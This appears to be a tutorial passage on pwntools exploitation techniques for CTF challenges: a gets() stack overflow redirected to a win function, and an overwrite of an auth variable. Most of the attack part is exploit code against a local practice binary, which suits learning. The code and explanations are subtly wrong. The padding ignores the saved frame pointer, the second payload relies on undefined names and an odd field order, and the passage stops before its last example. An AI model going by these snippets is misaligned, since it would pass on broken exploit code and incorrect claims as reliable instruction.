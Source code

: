 # Advanced Pwntools Techniques for Complex CTF Challenges

## Buffer Overflow

### Real Implementation

Consider a binary with a vulnerable function like this:

```c
void vulnerable_function() {
    char buffer[64];
    gets(buffer);
}
```

You would exploit this in pwntools like so:

```python
from pwn import *

binary = ELF('./vulnerable_binary')
context.binary = binary
p = process(binary.path)

padding = 64
payload = b'A' * padding
payload += p32(binary.symbols['win_function']) # Address of win_function

p.sendline(payload)
p.interactive()
```

This payload overflows the buffer and overwrites the return address with the address of `win_function`.

## Modify Variable's Value

### Real Implementation

In a scenario where there's a variable after the buffer, say `int auth = 0;`, you could modify its value like so:

```python
auth_address = 0x0804a01c # Address of the auth variable
payload = b'A' * buffer_size + p32(new_value) + p32(auth_address)
```

## Return to Win

### Real Implementation

If a binary has a non-executed function, `win()`, you can redirect execution to it as follows:
